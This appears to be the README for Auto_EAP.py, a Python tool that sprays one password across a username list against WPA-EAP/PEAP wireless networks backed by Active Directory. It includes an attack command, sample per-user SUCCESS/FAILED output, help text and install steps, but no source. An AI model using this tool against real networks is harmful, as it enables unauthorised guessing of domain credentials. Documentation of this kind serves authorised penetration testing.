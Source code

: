 # Auto_EAP

## Introduction
-----
Auto_EAP.py is a script designed to perform automated brute-force authentication attacks against various types of EAP networks. These types of wireless networks provide an interface to facilitate password guessing of domain credentials as radius servers check authentication against Active Directory. Using the python library wpaspy, created by [Jouni Malinen <j@w1.fi>] (https://github.com/jmalinen/hostap/tree/master/wpaspy)
to interact with the wpa_supplicant damon, automated authentication attacks can be preformed with the intent of not causing account lock-outs. 
```
./Auto_EAP.py -s HoneyPot -K WPA-EAP -E PEAP -U test.txt -p Summer2016 -i wlan0
Initialized...
Trying Username Alice with Password test: SUCCESS
Trying Username Bob with Password test: FAILED
Trying Username Charles with Password test: FAILED
Trying Username David with Password test: SUCCESS
Completed

```

## Installation
-----

Run 'RunMeFirst.py' within the root directory of Auto_EAP. This will compile the wpaspy library as well as setup a stand alone wpa_supplicant.conf file that Auto_EAP.py will use for testing, leaving the system’s wpa_supplicant config file untouched.  

## Help
-----

```
./Auto_EAP.py -h
usage: Auto_EAP.py [-h] -i Interface -s SSID -U Usernamefile -p Password -K
                   Key_mgmt -E Eap_type

optional arguments:
  -h, --help            show this help message and exit
  -i Interface, --interface Interface
                        The Interface to use
  -s SSID, --ssid SSID  The SSID to attack
  -U Usernamefile, --User Usernamefile
                        Path to username file
  -p Password, --password Password
                        Password to use
  -K Key_mgmt, --key_mgmt Key_mgmt
                        Key_Management type to use
  -E Eap_type, --eap_type Eap_type
                        Eap type to use

```

## Todo list
-----
* [-] Add multi-threading functionality
* [-] Add support for password lists

